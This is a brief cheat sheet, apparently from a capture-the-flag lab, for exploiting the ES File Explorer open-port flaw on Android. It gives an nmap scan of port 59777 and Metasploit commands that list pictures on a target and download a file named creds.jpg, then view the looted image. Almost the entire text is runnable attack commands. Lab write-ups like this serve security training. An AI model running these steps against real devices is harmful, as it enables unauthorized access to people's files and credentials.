 # ES File Explorer File Manager

Enumeration

```
sudo nmap -p 59777 --open -sS -Pn
```

Exploit

```
msfconsole
search es file explorer

use auxiliary/scanner/http/es_file_explorer_open_port
options

set RHOSTS 10.10.10.247
exploit

show actions

set action LISTPICS
exploit

# Exploit
set action GETFILE
set ACTIONITEM /storage/emulated/0/DCIM/creds.jpg
exploit

sudo apt install feh
feh ~/.msf4/loot/20211025151836_default_10.10.10.247_getFile_410464.jpg
```
